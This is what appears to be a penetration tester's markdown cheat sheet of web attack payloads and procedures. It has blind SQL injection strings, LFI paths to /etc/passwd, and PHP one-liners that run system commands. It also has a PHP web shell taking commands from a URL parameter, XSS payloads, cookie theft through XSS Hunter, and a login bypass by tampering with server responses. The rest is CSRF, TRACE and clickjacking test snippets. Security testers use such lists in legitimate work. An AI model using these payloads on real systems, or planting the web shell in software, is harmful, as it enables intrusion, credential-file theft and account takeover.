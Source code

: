 ## Time Based Blind SQL Injection:
```
'(select * from (select(sleep(10)))a)
,(select*from(select(sleep(15)))a)
';WAITFOR DELAY '0:0:30'--
```
## Boolean Based Blind SQL Injection:
```
'2 OR 1=1
'2 AND 1=1
```
## Local File Inclusion (LFI):
```
<?php include 'C:\Windows\System32\drivers\etc\hosts';?>
/etc/passwd
/etc/hosts
/../../etc/passwd
```
## Remote Code Execution (RCE):
```
<?php system("cat /etc/passwd");?>
<?php system("id");?>
<?php echo phpinfo(); ?>
```
## Malicious File Upload (Shell Execution):
```
<?php system($_GET['cmd']); ?>

https://github.com/hackerhijeck/For_Me/blob/main/Web_Shell.php
```
## Application is Vulnerable to Reverse Web shell (Shell Execution):
```
https://www.revshells.com
```
## File Upload Bypass:
```
https://book.hacktricks.xyz/pentesting-web/file-upload
```
## Session Hijacking:
```
Step1: Using xss hunter payload, execute the payload in logged in user account.
Step2: After got the cookies in the XSS Hunter.
Step3: Copy the cookies and before login paste and change into the cookies and refresh it.
```
## Session Fixation in The Application:
```
Step1: Before login, Check the cookie or session token.
Step2: Then After login, Check the cookie or session token, If same token or cookies is there.
```
## URL Redirection in the application:
##### Endpoint Pattern:
```
/?url=
/?redirect_url:
/?checkout_url=
/?login_url=
/?redirect_uri=
```
## Reflected Cross Site Scripting Attack:
```
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
javascript:alert(1)//
"onmouseover=alert(1);
<x onclick=alert(1)>click!
```
## HTML Injection
```
<h1>HTML_Injection</h1>
<marquee>HTML_Injection</marquee>
```
## Link Injection:
```
<a href="https://www.intelliroot.com">ClickMe</a>
```
## Iframe Injection:
```
<iframe src="https://www.intelliroot.com"></iframe>
```
## Blind Cross Site Scripting Attack:
```
XSS Hunter payload
```
## Admin/User Login Authentication Bypass Using Success Response:
#### Process 1:
```
Step1: Login panel capture the request and Do intercept and click to respnse to this request and then forward the request
Step2: If Response code 404 Forbidon then change to 200 OK. and then forward the request.
```
#### Process 2:
```
Step1: In login panel first logged in a valid user and capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step2: Copy the 200 OK reponse data and save it any txt format.
Step3: Now try to unathorized user, in login panel capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step4: In Response data, paste the data which copied from a valid user, and then forward the request.
```
## Cross Site Request Forgery (CSRF):
```
Step1: Capture any POST data and click generate CSRF poc, save it into the html file.
Step2: Change the POST data to anything you want.
Step3: Now open into the browser and click submit.
```
### Account Takeover through forget password:
```
https://infosecwriteups.com/all-about-password-reset-vulnerabilities-3bba86ffedc7
```
### No Session Termination After Password Change:
```
Step1: Login as a user, After logged in capture a request of any functionality and get into the Repeater and send to Response.
Step2: Wait minimum 40,50 minutes, Do not loggout the account.
Step3: After complete the time, then again click send to the reponse in the Burpsuite.
Step4: If its working properly, then it No Session Termination Vulnerability.
```
### Concurrent Logins with the Same Username in admin/user account:
```
Step1: Same time, try to login same user account in two different computer.
```
### Trace method Enabled:
```
Step1: $ curl -X TRACE -H "X-Header: geeknik/pentest" https://url.com
Step2: $ curl -X TRACE -H "Via: <svg/onload=alert('XSS')>" https://url.com

https://hackerone.com/reports/222692
```
### Full path disclosure:
```
/?file=
/?page=

<?php
   echo file_get_contents(getcwd().$_GET['page']);
?>
```
### Improper Input Validation in the Application:
```
<script>alert(1)</script>
<h1>Test</h1>
```
### Application is Vulnerable to Clickjacking Attacks:
```
<!DOCTYPE html>
<html>
<head>
<title>This is Clickjacking Test Page!</title>
</head>
<body>
<iframe src="https://url.com" width="500" height="500"></iframe>
</body>
</html>
```

